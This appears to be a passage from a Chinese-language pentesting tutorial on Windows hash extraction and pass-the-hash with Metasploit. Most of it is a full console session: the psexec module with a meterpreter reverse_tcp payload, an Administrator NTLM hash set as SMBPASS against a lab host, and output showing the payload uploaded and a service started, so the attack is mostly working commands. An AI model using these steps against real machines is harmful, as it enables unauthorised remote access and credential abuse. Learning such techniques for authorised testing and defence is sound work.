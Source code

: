 ![Alt text](/img/hack/Metasploit/1488785106799.png)

> 以add3b435开头的哈希值是一个空的或不存在的哈希值——空字串的占位符。由于密码超过14字节的长度，windows不能将其存储为LM形式，所以存储了aad3b435...的字符串，代表空密码。

#### **0x02传递哈希值**

提取到明文密码，不能将明文密码的时候，可以进行哈希传递技术。使用`use exploit/windows/smb/psexec`进行哈希值传递入侵机器。

```javascript


msf exploit(ms08_067_netapi) > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(psexec) > set RHOST 10.10.10.130
RHOST => 10.10.10.130
msf exploit(psexec) > set LHOST 10.10.10.133
LHOST => 10.10.10.133
msf exploit(psexec) > set SMBPASS f0d412bd764ffe81aad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634
SMBPASS => f0d412bd764ffe81aad3b435b51404ee:209c6174da490caeb422f3fa5a7ae634

msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > exploit

[*] Started reverse TCP handler on 10.10.10.133:4444 
[*] Connecting to the server...
[*] Authenticating to 10.10.10.130:445 as user 'Administrator'...
[*] Selecting native target
[*] Uploading payload...
[*] Created \mSgcBSlM.exe...
[+] 10.10.10.130:445 - Service started successfully...

```
